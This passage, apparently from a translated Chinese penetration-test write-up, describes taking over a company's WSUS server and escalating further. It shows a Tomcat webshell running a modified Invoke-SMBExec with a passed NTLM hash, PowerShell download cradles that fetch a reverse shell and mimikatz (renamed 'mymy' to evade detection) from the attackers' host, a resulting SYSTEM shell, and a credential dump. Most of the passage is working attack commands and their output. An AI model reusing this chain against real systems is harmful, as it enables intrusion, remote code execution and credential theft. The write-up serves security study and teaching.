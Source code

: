 用Tomcat的webshell上传[SMBExec(smb.ps1)](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1)，这将允许我们[传递哈希](https://en.wikipedia.org/wiki/Pass_the_hash)进行身份验证

我们稍微修改了原始的SMBExec脚本，添加了一些行用于自动化漏洞利用。一旦被加载，它就会自动调用必要的参数连接到WSUS服务器，在我们的服务器下载反向shell到内存，然后执行



```
Invoke-SMBExec 
-Target &lt;SRVWSUS_IP&gt; 
-Username Administrator -Hash 604603ab105adc8XXXXXXXXXXXXXXXXX 
-Command 
“powershell `”IEX (New-Object Net.WebClient).DownloadString(`’http://&lt;OUR_PUBLIC_IP&gt;/r1.ps1`’); Invoke-r1`””
```

这就是我们的一体化解决方案：自动执行的SMBExec，自动下载并执行的Powershell脚本

在webshell里，我们执行了smb.ps1：



```
cmd /c powershell -executionpolicy bypass -f c:tomcatwebappscmdwarfilessmb.ps1
Command executed with service BHTLCPTEICLBHQPOVGSM on 192.168.178.62
```

这次攻击成功了，我们收到了来自SRVWSUS计算机的SYSTEM权限的Shell：



```
connect to &lt;OUR_PUBLIC_IP&gt; from &lt;COMPANY_PUBLIC_IP&gt; 50341
PS C:Windowssystem32&gt; whoami
nt authoritysystem
```

最终还是拿到了一个连接更稳定的shell，拜拜啦Android~

但现在我们的任务也与以前不同了，我们至今也没能找到窃取机密数据的方法。

我们同样注意到了，即使以本地管理员身份启动了smb.ps1，SMBExec也会以SYSTEM权限产生进程(记得之前的whoami结果吗)。或许使用[wmiexec.ps1](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-WMIExec.ps1)——一款强大的windows WMI接口的Powershell封装工具——会更适合下面的任务，因为它会使用传递的凭据运行远程进程。

我们再次运行mimikatz，依旧没有什么问题（我们是SYSTEM权限），这次SRVWSUS直接传递给我们了反向shell，而无需再上传文件。记住，"mymy"是我们对mimikatz混淆后的名字。



```
PS C:Windowssystem32&gt;iex (New-Object Net.WebClient).DownloadString(‘http://&lt;OUR_PUBLIC_IP&gt;/m.ps1’); Invoke-mymy
mimikatz(powershell) # sekurlsa::logonpasswords
Authentication Id : 0 ; 749566 (00000000:000b6ffe)
Session : Interactive from 2
User Name : administrator
Domain : SUPERCOMPANY
Logon Server : SRVDC1
Logon Time : 2/17/2017 4:23:28 PM
SID : S-1-5-21-3534665177-2148510708-2241433719-500
msv :
[00000003] Primary
* Username : Administrator
* Domain : SUPERCOMPANY
* NTLM : 446687c38d831f4XXXXXXXXXXXXXXXXX
    * SHA1 : 5cd9d993a606586XXXXXXXXXXXXXXXXXXXXXXXXX
[00010000] CredentialKeys
* NTLM : 446687c38d831f4XXXXXXXXXXXXXXXXX
    * SHA1 : 5cd9d993a606586XXXXXXXXXXXXXXXXXXXXXXXXX
tspkg :
wdigest :
* Username : Administrator
* Domain : SUPERCOMPANY
* Password : (null)
```